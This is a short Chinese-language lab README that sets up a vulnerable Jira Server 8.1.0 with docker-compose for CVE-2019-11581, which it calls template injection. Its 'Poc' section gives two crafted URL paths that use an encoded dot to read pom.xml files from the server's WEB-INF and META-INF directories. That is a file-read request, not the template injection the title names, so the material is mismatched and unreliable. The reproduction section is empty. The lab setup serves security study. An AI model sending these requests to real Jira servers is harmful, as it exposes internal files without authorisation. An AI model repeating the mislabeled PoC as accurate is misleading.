

# Atlassian Jira 模板注入漏洞（CVE-2019-11581）

Atlassian Jira是企业广泛使用的项目与事务跟踪工具，被广泛应用于缺陷跟踪、客户服务、需求收集、流程审批、任务跟踪、项目跟踪和敏捷管理等工作领域。

## 环境搭建

执行如下命令启动一个Jira Server 8.1.0：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`会进入安装引导，切换“中文”，VPS条件下选择“将其设置为我”（第一项）去Atlassian官方申请一个Jira Server的测试证书（不要选择Data Center和Addons）：

然后继续安装即可。这一步小内存VPS可能安装失败或时间较长（建议使用4G内存以上的机器进行安装与测试），请耐心等待。

## Poc

```
/s/aaa/_/%2e/WEB-INF/classes/META-INF/maven/com.atlassian.jira/jira-core/pom.xml

/s/aaa/_/%2e/META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.xml
```

## 漏洞复现


